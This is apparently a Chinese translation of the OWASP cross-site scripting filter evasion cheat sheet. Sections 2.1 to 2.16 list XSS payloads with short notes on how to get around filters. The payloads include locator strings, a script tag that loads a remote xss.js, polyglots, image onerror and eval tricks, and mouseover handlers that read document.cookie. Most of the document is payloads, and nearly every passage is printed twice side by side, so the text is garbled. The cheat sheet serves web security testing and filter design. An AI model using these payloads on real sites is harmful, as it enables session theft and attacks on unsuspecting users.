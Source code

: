 在大多数存在漏洞且不需要特定XSS攻击代码的地方插入下列代码会弹出包含“XSS”字样的对话框。使用URL编码器来对整个代码进行编码。小技巧：如果你时间很紧想要快速检查页面，通常只要插入“<任意文本>”标签，然后观察页面输出是否明显改变了就可以判断是否存在漏洞：	在大多数存在漏洞且不需要特定XSS攻击代码的地方插入下列代码会弹出包含“XSS”字样的对话框。使用URL编码器来对整个代码进行编码。小技巧：如果你时间很紧想要快速检查页面，通常只要插入“<任意文本>”标签，然后观察页面输出是否明显改变了就可以判断是否存在漏洞：


> ‘;alert(String.fromCharCode(88,83,83))//’;alert(String.fromCharCode(88,83,83))//”;	json
>	‘;alert(String.fromCharCode(88,83,83))//’;alert(String.fromCharCode(88,83,83))//”;
> alert(String.fromCharCode(88,83,83))//”;alert(String.fromCharCode(88,83,83))//–	
>	alert(String.fromCharCode(88,83,83))//”;alert(String.fromCharCode(88,83,83))//–
> \></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>	
></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>





### 2.2.  XSS定位器（短）	### 2.2.  XSS定位器（短）


如果你没有足够的空间并且知道页面上没有存在漏洞的JavaScript，这个字符串是一个不错的简洁XSS注入检查。注入后查看页面源代码并且寻找是否存在**<XSS** 或**&lt;XSS**字样来确认是否存在漏洞	如果你没有足够的空间并且知道页面上没有存在漏洞的JavaScript，这个字符串是一个不错的简洁XSS注入检查。注入后查看页面源代码并且寻找是否存在**<XSS** 或**&lt;XSS**字样来确认是否存在漏洞


> ”;!–”<XSS>=&{()}	json
”;!–”<XSS>=&{()}





### 2.3.  无过滤绕过	### 2.3.  无过滤绕过


这是一个常规的XSS注入代码，虽然通常它会被防御，但是建议首先去测试一下。（引号在任何现代浏览器中都不需要，所以这里省略了它）：	这是一个常规的XSS注入代码，虽然通常它会被防御，但是建议首先去测试一下。（引号在任何现代浏览器中都不需要，所以这里省略了它）：


> <SCRIPT SRC=<http://xss.rocks/xss.js>></SCRIPT>	json
<SCRIPT SRC=<http://xss.rocks/xss.js>></SCRIPT>





### 2.4.  利用多语言进行过滤绕过	### 2.4.  利用多语言进行过滤绕过


> ‘”>><marquee><img src=x onerror=confirm(1)></marquee>”></plaintext\></|\><plaintext/onmouseover=prompt(1)>	json
>	‘”>><marquee><img src=x onerror=confirm(1)></marquee>”></plaintext\></|><plaintext/onmouseover=prompt(1)>
> <script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>’–>”></script>	
>	<script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>’–>”></script>
> <script>alert(document.cookie)</script>”>	
>	<script>alert(document.cookie)</script>”>
> <img/id=”confirm&lpar;1)”/alt=”/”src=”/”onerror=eval(id)>’”>	
>	<img/id=”confirm&lpar;1)”/alt=”/”src=”/”onerror=eval(id)>’”>
> <img src=”<http://www.shellypalmer.com/wp-content/images/2015/07/hacked-compressor.jpg>“>	
<img src=”<http://www.shellypalmer.com/wp-content/images/2015/07/hacked-compressor.jpg>“>





### 2.5.  通过JavaScript命令实现的图片XSS	### 2.5.  通过JavaScript命令实现的图片XSS


图片注入使用JavaScript命令实现（IE7.0 不支持在图片上下文中使用JavaScript 命令，但是可以在其他上下文触发。下面的例子展示了一种其他标签依旧通用的原理）：	图片注入使用JavaScript命令实现（IE7.0 不支持在图片上下文中使用JavaScript 命令，但是可以在其他上下文触发。下面的例子展示了一种其他标签依旧通用的原理）：


> <IMG SRC=”javascript:alert(‘XSS’);”>	json
<IMG SRC=”javascript:alert(‘XSS’);”>



### 2.6.  无分号无引号	### 2.6.  无分号无引号


> <IMG SRC=javascript:alert(‘XSS’)>	json
<IMG SRC=javascript:alert(‘XSS’)>





### 2.7.  不区分大小写的XSS攻击向量	### 2.7.  不区分大小写的XSS攻击向量


> <IMG SRC=JaVaScRiPt:alert(‘XSS’)>	json
<IMG SRC=JaVaScRiPt:alert(‘XSS’)>





### 2.8.  HTML实体	### 2.8.  HTML实体


必须有分号才可生效	必须有分号才可生效


> <IMG SRC=javascript:alert(&quot;XSS&quot;)>	json
<IMG SRC=javascript:alert(&quot;XSS&quot;)>





### 2.9.  重音符混淆	### 2.9.  重音符混淆


如果你的JavaScript代码中需要同时使用单引号和双引号，那么可以使用重音符（）来包含JavaScript 代码。这通常会有很大帮助，因为大部分跨站脚本过滤器都没有过滤这个字符：	如果你的JavaScript代码中需要同时使用单引号和双引号，那么可以使用重音符（）来包含JavaScript 代码。这通常会有很大帮助，因为大部分跨站脚本过滤器都没有过滤这个字符：
> <IMG SRC=javascript:alert(“RSnake says, ‘XSS’”)>	json
<IMG SRC=javascript:alert(“RSnake says, ‘XSS’”)>





### 2.10.    畸形的A标签	### 2.10.    畸形的A标签


跳过HREF标签找到XSS的重点。。。由DavidCross提交~已在Chrome上验证	跳过HREF标签找到XSS的重点。。。由DavidCross提交~已在Chrome上验证


> <a onmouseover=”alert(document.cookie)”>xxs link</a>	json
<a onmouseover=”alert(document.cookie)”>xxs link</a>



此外Chrome经常帮你补全确实的引号。。。如果在这方面遇到问题就直接省略引号，Chrome会帮你补全在URL或脚本中缺少的引号。	此外Chrome经常帮你补全确实的引号。。。如果在这方面遇到问题就直接省略引号，Chrome会帮你补全在URL或脚本中缺少的引号。
json
<a onmouseover=alert(document.cookie)>xxs link</a>



> <a onmouseover=alert(document.cookie)>xxs link</a>	


### 2.11.    畸形的IMG标签	### 2.11.    畸形的IMG标签


最初由Begeek发现（短小精湛适用于所有浏览器），这个XSS攻击向量使用了不严格的渲染引擎来构造含有IMG标签并被引号包含的XSS攻击向量。我猜测这种解析原来是为了兼容不规范的编码。这会让它更加难以正确的解析HTML标签：	最初由Begeek发现（短小精湛适用于所有浏览器），这个XSS攻击向量使用了不严格的渲染引擎来构造含有IMG标签并被引号包含的XSS攻击向量。我猜测这种解析原来是为了兼容不规范的编码。这会让它更加难以正确的解析HTML标签：


> <IMG “”"><SCRIPT>alert(“XSS”)</SCRIPT>”>	json
<IMG “”"><SCRIPT>alert(“XSS”)</SCRIPT>”>

### 2.12.    fromCharCode函数	### 2.12.    fromCharCode函数
如果不允许任何形式的引号，你可以通过执行JavaScript里的fromCharCode函数来创建任何你需要的XSS攻击向量：	如果不允许任何形式的引号，你可以通过执行JavaScript里的fromCharCode函数来创建任何你需要的XSS攻击向量：
> <IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>	json
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

### 2.13.    使用默认SRC属性绕过SRC域名过滤器	### 2.13.    使用默认SRC属性绕过SRC域名过滤器
这种方法可以绕过大多数SRC域名过滤器。将JavaScript代码插入事件方法同样适用于注入使用elements的任何HTML标签，例如Form,Iframe, Input, Embed等等。它同样允许将事件替换为任何标签中可用的事件类型，例如onblur,onclick。下面会给出许多不同的可注入事件列表。由David Cross提交，Abdullah Hussam(@Abdulahhusam)编辑。	这种方法可以绕过大多数SRC域名过滤器。将JavaScript代码插入事件方法同样适用于注入使用elements的任何HTML标签，例如Form,Iframe, Input, Embed等等。它同样允许将事件替换为任何标签中可用的事件类型，例如onblur,onclick。下面会给出许多不同的可注入事件列表。由David Cross提交，Abdullah Hussam(@Abdulahhusam)编辑。
> <IMG SRC=# onmouseover=”alert(‘xxs’)”>	json
<IMG SRC=# onmouseover=”alert(‘xxs’)”>

### 2.14.    使用默认为空的SRC属性	### 2.14.    使用默认为空的SRC属性
> <IMG SRC= onmouseover=”alert(‘xxs’)”>	json
<IMG SRC= onmouseover=”alert(‘xxs’)”>

### 2.15.    使用不含SRC属性	### 2.15.    使用不含SRC属性
> <IMG onmouseover=”alert(‘xxs’)”>	json
<IMG onmouseover=”alert(‘xxs’)”>

### 2.16.    通过error事件触发alert	### 2.16.    通过error事件触发alert
> <IMG SRC=/ onerror=”alert(String.fromCharCode(88,83,83))”></img>	json
<IMG SRC=/ onerror=”alert(String.fromCharCode(88,83,83))”></img>

